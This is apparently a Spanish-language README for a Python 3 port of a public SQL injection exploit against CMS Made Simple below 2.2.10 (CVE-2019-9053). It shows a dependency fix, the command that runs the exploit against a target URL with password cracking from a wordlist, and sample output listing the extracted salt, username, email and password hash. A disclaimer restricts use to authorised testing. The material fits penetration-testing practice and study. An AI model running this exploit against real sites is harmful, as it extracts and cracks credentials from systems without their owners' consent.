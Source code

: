# CMS Made Simple < 2.2.10 - SQL Injection (el exploit ha sido parcheado para ser compatible con Python 3.)

<h1> CVE-2019-9053
  <h2>Fuente de exploración original: https://www.exploit-db.com/exploits/46635
<h1> Posible error y su corrección. </h1>

<bash>Traceback (most recent call last):
  File "46635.py", line 12, in <module>
    from termcolor import colored
ImportError: No module named termcolor
  
<h2> Corrección
  
  <code> pip install termcolor
  </code>

  <h2> Ejemplo de comando </h2>
  
  <code> python cve.py -u http://target --crack -w /usr/share/wordlists/ejemplo.txt   
 </code>
  
  <h1> Ejemplo del Resultado:
	  
```
  [+] Salt for password found: 18
  [+] Username found: mitw
  [+] Email found: adk
  [+] Password found: 0c01f4468d
```                                 

# Los usuarios asumen toda la responsabilidad por cualquier acción realizada con esta herramienta..</p>
# Si estos términos no son aceptables para usted, no utilice esta herramienta.
# Utilice esta herramienta solo en entornos donde se le permita realizar actividades de pruebas de penetración..
# No utilice esta herramienta con fines maliciosos.

